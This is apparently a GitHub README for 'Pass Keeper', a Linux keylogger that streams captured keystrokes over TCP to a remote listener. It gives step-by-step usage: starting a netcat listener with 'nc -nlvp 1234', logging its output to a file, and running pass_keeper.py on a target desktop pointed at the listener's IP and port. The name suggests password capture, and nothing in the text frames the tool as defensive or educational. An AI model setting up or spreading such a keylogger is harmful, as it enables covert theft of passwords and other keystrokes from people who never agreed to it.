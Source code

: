 # Pass Keeper
Standalone Key logger over tcp for Linux
- Using Xlib from: https://github.com/python-xlib/python-xlib
- Using pyxhook from: https://github.com/JeffHoogland/pyxhook

## How to use

### On listener desktop

Launch a netcat or other tcp server in listening mode
```
nc -nlvp 1234
```

You can also redirect the output in a file
```
nc -nlvp 1234 > file.txt
```

### On remote desktop

1. Download the project on the desktop

2. Launch the script pass_keeper.py with two arguments (Destination IP Address and Destination Port)
```
python3 pass_keeper.py 127.0.0.1 1234
```
